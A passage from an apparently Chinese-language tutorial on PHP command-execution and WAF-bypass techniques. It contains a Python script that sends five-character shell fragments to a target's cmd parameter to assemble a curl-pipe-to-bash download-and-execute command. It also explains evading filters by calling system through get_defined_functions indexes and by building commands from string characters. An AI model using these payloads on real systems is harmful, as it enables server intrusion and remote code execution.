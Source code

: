 ```python
    '>sh\ ', 
    '>ba\\', 
    '>\|\\',
    '>p\\',
    '>vi\\',
    '>i.\\', 
    '>y\\',
    '>ra\\', 
    '>w.\\', 
    '>ww\\', 
    '>\ \\', 
    '>rl\\', 
    '>cu\\', 
    # exec
    'sh _', 
    #先执行ls -t>g
    'sh g'
   
]

r = requests.get('http://url/?reset=1')
for i in payload:
    assert len(i) <= 5 
    r = requests.get('http://url/?cmd=' + urllib.parse.quote(i) )
    print(i)
    sleep(1)
```

## get_defined_functions

get_defined_functions系统函数会返回一个多维数组，该数组包含一个所有已定义函数（包括内部函数和用户定义函数）列表；内部函数可以通过`$arr["internal"]`来表示，用户定义的函数可以使用`$arr["user"]`来表示
例如：`php -r 'print_r(get_defined_functions()[internal]);'`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528113430978.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

以上就是在不使用系统函数的名称的情况下引用系统函数的另一种方式，如果我们筛选字符串`"system"`，可以找出它的索引号，并利用这种方式使用它：`php -r 'print_r(get_defined_functions()[internal]);' | grep 'system'`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528113517621.png#pic_center)

利用这种方式绕过WAF和代码中的安全过滤：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528114446389.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
## 字符数组
PHP中的每个字符串都可视为一个字符数组，并且可以通过语法`$string[2]`或 `$string[-3]`来引用单个字符，这同时也是另一种绕过安全规则的方法
例如，仅仅使用字符串`$a="elmsty/ ";`，我就可以组成命令执行语句`system("ls /tmp");`(测试PHP版本>7.0)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528145804484.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
